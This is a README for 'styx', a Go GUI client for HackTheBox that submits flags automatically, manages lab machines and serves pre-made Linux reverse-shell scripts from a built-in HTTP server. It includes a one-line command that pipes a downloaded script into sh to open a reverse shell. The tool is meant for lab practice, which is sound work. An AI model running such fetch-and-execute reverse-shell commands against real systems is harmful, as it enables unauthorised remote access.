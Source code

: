 ![styx river](/styx.png)
# styx v0.0.1
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.  
  
 ## Purpose
Styx aims to streamline the process of engaging with seasonal machines on HTB. Its primary focus is to avoid using the HTB web interface, enabling users to execute time-sensitive actions swiftly and efficiently. While Styx prioritizes functionality and speed over aesthetics, it serves as an effective and quicker alternative for interacting with HTB.  
 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 

## Usage
1. `go install github.com/c3l3si4n/styx@HEAD`
1. Create an app token on your HTB profile (any duration you want)
2. Set the `HTB_TOKEN` environment variable with the value containing your generated token
3. Run styx

